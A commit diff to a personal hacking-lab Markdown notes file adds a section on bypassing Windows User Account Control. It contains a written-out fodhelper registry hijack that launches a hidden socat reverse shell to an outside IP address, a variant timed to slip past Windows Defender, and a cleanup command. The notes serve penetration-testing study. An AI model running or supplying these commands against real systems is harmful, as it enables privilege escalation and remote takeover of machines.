

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: 2_Windows.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
bypass uac

````diff
--- a/2_Windows.md
+++ b/2_Windows.md
@@ -387,3 +389,53 @@
 - Mount local folder:
   - xfreerdp /u:admin /p:password /cert:ignore /v:10.10.134.246 /workarea /drive:/home/bruno/git/tomnt +drives
 
+# Bypass User Account Control (UAC)
+- New Process are runned as non-privileged-account
+- Tokens
+  - Normal user: 1
+  - Admin: filtered (norma actions) + elevated (admin actions)
+- Bypass ==> goint to elevated to IL (integrity level) high
+- References
+- [UAC git repository](https://github.com/hfiref0x/UACME)
+- [Bypassing UAC](https://www.bleepingcomputer.com/news/security/bypassing-windows-10-uac-with-mock-folders-and-dll-hijacking/)
+- [Way around UAC](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)
+
+## GUI bypass
+- **msconfig** RUNS with IL high
+    - shell from msconfing = high
+- **azman.msc** ==> help ==> view source = open ==> all files
+
+## Auto Elevating
+- manifest ==> autoElevate (on/off)
+- Change default programm execution in HKEY_Current_USer
+
+```
+# Define standard application
+set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
+
+# Link the application to attacker programm
+set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.26.251:4444 EXEC:cmd.exe,pipes"
+
+# Make the system used our choue
+reg add %REG_KEY% /v "DelegateExecute" /d "" /f
+
+# Add the created command as preference
+reg add %REG_KEY% /d %CMD% /f
+
+# execute fodhelper.exe
+
+### After Windows Defender
+
+set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
+
+set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.26.251:4444 EXEC:cmd.exe,pipes"
+
+reg add %REG_KEY% /v "DelegateExecute" /d "" /f
+
+# Set command + Query = register delete, windows defender did not act so quickly
+reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY% & fodhelper.exe
+
+# Clean Steps
+reg delete HKCU\Software\Classes\ms-settings\ /f
+```
+
````
Also changed, not shown: other parts of 2_Windows.md (+34 -2 lines), 0_theory.md (+6 -1 lines).
